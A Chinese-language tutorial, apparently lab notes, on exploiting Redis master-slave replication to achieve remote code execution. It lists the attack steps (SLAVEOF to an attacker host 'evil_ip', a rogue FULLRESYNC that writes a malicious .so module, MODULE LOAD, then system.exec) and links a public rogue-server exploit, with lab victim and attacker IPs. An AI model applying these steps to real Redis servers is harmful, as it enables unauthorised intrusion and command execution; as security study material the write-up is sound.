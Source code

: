 ## 1. 如何利用Redis主从漏洞

### 1.1. 主从模式  

主（master）和 从（slave）部署在不同的服务器上，当主节点写入数据时会同步到从节点的服务器上，一般主节点负责写入数据，从节点负责读取数据  

![](_v_images/20200530213003169_25074.png)  

做个实验验证下：  

1. 本机启动两个redis，端口分别为6379（主）和6380（从）。客户端先连接6379端口，写入几个值  
![](_v_images/20200530213151280_13202.png)


2. 连接6380端口，执行slaveof  127.0.0.1  6379  ，将6379设置为主服务  
![](_v_images/20200530213237112_18091.png)  

### 1.2. redis模块    

redis4.0后可以通过加载so文件，来实现外部扩展。并且可以通过FULLRESYNC命令同步文件到从机上。通过这些特性，从而实现攻击。  

### 1.3. 攻击步骤  

1. 连接受害者redis, 执行命令SLAVEOF evil_ip evil_ip
2. 在受害者redis设置dir和dbfilename，dbfilename为恶意so文件
3. 通过同步将module写入受害者redis磁盘上：+FULLRESYNC <Z*40> 1\r\n$<len>\r\n<payload>
4. 在受害者redis上加载模块: MODULE LOAD /tmp/exp_lin.so
5. 加载成功后，利用system.exec进行命令执行  

### 1.4. 复现过程  

exp：https://github.com/n0b0dyCN/redis-rogue-server  

1. 编译exp.so  

![](_v_images/20200530213919168_25952.png)  

2. 运行攻击程序  

192.168.47.146是受害者IP，6666是受害者的redis端口
192.168.47.105是入侵者IP，7777是攻击程序模拟redis监听的端口，随便写  
![](_v_images/20200530214034321_29046.png)




